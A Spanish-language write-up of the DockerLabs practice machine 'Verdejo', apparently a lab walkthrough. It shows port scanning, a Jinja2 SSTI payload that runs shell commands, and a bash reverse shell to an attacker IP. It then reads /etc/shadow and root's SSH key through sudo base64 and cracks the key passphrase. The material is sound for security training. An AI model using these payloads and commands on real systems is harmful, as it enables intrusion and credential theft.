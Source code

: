 # 🧪 Análisis de la máquina vulnerable: **Verdejo**

**Dificultad:** Fácil

**Plataforma:** DockerLabs

**Descripción:**

![Descarga de la máquina](Imágenes/2025-05-15_09-12.png)

---

## 📦 Despliegue de la máquina

Se descarga la máquina vulnerable desde la página oficial de DockerLabs y se descomprime con:

```bash
unzip verdejo.zip
```

Luego, se despliega el entorno con el script:

```bash
sudo bash auto_deploy.sh verdejo.tar
```

Esto inicia la máquina en un contenedor de Docker.

![Despliegue de la máquina](Imágenes/Capturas.png)

---

## 📡 Verificación de la conectividad

Se verifica la conexión con la máquina mediante un simple ping a la IP asignada (`172.17.0.3`):

```bash
ping -c1 172.17.0.3
```

Esto confirma que la máquina está accesible en la red local del contenedor.

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 Escaneo de puertos

Utilizamos `nmap` para realizar un escaneo completo de todos los puertos y ver cuáles están abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Resultado:

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
8089/tcp open  unknown syn-ack ttl 64
```

![Puertos](Imágenes/Capturas_2.png)

---

## 🛠️ Detección de servicios

Con los puertos abiertos identificados, se realiza un escaneo más detallado para obtener información sobre los servicios y versiones:

```bash
nmap -sC -sV -p22,80,8089 172.17.0.3 -oN target.txt
```

Se usó un script personalizado `extractPorts` para agilizar el proceso de extracción de puertos desde la salida anterior.

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 Análisis de los servicios HTTP

Al acceder a `http://172.17.0.3/` se muestra la página por defecto de Apache2, lo que indica que el servidor está funcionando.

![Puerto:80](Imágenes/Capturas_4.png)

También se accede al puerto `8089` vía `http://172.17.0.3:8089/` y se observa una página personalizada que parece desarrollada en algún framework Python (por la estructura del HTML).

![Puerto:8089](Imágenes/Capturas_5.png)

---

## 🗂️ Fuzzing de directorios

Se realizó una enumeración de directorios y archivos con `gobuster` para ambos puertos:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
gobuster dir -u http://172.17.0.3:8089 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Durante el fuzzing en el puerto `8089`, la aplicación se volvió inestable, lo que sugiere una posible vulnerabilidad a ataques DoS o DDoS.

![Fuzzing](Imágenes/Capturas_6.png)
![Fuzzing](Imágenes/Capturas_7.png)

---

## 🧠 Server-Side Template Injection (SSTI)

Al inspeccionar el parámetro `user` en la URL `http://172.17.0.3:8089/?user=`, se descubrió que la aplicación es vulnerable a SSTI, probablemente mediante Jinja2 (común en aplicaciones Flask).

Se probó la ejecución de comandos con este payload:

```
http://172.17.0.3:8089/?user={{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
```

Este payload ejecuta el comando `cat /etc/passwd` desde el servidor y muestra su salida en la página web.

![SSTI](Imágenes/Capturas_8.png)

---

## ⚙️ Reverse Shell

Aprovechando la vulnerabilidad SSTI, se obtuvo una reverse shell. Primero, iniciamos un listener:

```bash
sudo nc -lvnp 443
```

Luego, se usó este payload SSTI modificado para obtener acceso remoto:

```
http://172.17.0.3:8089/?user={{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.1.10/443 0>&1"').read() }}
```

Esto inicia una shell interactiva con el servidor.

![Reverseshell](Imágenes/Capturas_9.png)
![Reverseshell](Imágenes/Capturas_10.png)

---

## 🔐 Escalada de privilegios

Se descubrió que el usuario tenía permiso para ejecutar el binario `base64` como root sin contraseña (`NOPASSWD`):

```bash
sudo -l
```

Usamos esto para leer archivos restringidos como `/etc/shadow` y la clave privada SSH de root:

```bash
sudo base64 /etc/shadow | base64 --decode
sudo base64 /root/.ssh/id_rsa | base64 --decode
```

Esto permitió obtener las contraseñas encriptadas y la clave privada del usuario root.

![Escalada](Imágenes/Capturas_11.png)
![Escalada](Imágenes/Capturas_12.png)

---

## 🔑 Acceso por SSH

Guardamos la clave privada en un archivo llamado `id_rsa` y le dimos los permisos adecuados:

```bash
nano id_rsa
chmod 600 id_rsa
```

Al intentar conectarse con:

```bash
ssh -i id_rsa root@172.17.0.3
```

Se solicita la passphrase de la clave. Para obtenerla, convertimos la clave al formato crackeable por John the Ripper:

```bash
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Se obtuvo la contraseña `honda1`, con la cual se logró el acceso como **root** por SSH.

![id\_rsa](Imágenes/Capturas_13.png)
![id\_rsa](Imágenes/Capturas_14.png)

---














